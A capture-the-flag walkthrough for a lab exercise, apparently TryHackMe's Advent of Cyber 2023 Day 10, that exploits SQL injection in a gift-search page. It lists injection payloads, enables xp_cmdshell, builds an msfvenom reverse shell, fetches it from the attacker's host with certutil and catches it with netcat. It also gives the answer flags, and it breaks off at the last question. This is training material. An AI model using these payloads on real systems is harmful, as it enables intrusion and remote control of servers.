 # Day 10

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/f4d5cec6-14b2-420e-9428-3d232f71c555)

## Day 10 — Tasks Answers
### 1. Manually navigate the defaced website to find the vulnerable search for What is the first webpage you come across that contains the gift-finding feature?
![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/acff22db-c563-44d2-8458-24b6078286cd)

    /giftsearch.php

### 2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

Inject a Quote on a parameter 

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/803758db-f911-4ada-a804-9190a0dd3f63)

    ODBC Driver 17 for SQL Server

### 3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

Inject the code after the value of parameter ‘OR 1=1 --
![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/ae3553f3-2227-4d6c-8dac-eaa612594948)

    THM{a4ffc901c27fb89efe3c31642ece4447}

### 4. What flag is in the note file Gr33dstr left behind on the system?

        Inject the below code first
        http://THM-MACHINE-IP/giftresults.php?age='; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; --
        Create a payload using the below command
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe

3. Start an HTTP server to host the payload with the below command
python3 -m http.server 8000

4. Send the payload to the victim site using the below command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘certutil -urlcache -f http://YOUR.LISTENING.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe’;--

5. Set a listener using the below command
nc -lnvp 4444

6. Execute the payload using the command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘C:\Windows\Temp\reverse.exe’; —

7. Change the directory to Administrator using the command
Cd C:\Users\Administrator

8. View the Content of Note.txt using the below command
type Note.txt

Ans: THM{b06674fedd8dfc28ca75176d3d51409e}

5. What is the flag you receive on the homepage after restoring the website?

